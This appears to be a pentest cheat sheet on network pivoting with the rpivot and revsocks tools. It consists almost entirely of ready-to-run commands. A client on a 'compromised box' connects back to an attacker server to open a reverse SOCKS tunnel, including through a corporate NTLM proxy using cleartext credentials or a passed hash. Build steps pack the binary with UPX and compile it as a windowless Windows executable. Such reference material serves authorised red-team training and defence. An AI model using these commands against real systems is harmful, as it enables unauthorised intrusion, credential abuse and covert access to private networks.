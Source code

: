 ## Rpivot

Server (Attacker box)

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)

```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## revsocks

```powershell
# Listen on the server and create a SOCKS 5 proxy on port 1080
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# Connect client to the server
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```

```powershell
# Build for Linux
git clone https://github.com/kost/revsocks
export GOPATH=~/go
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
go build
go build -ldflags="-s -w" && upx --brute revsocks

# Build for Windows
go get github.com/hashicorp/yamux
go get github.com/armon/go-socks5
go get github.com/kost/go-ntlmssp
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
go build -ldflags -H=windowsgui
upx revsocks
```

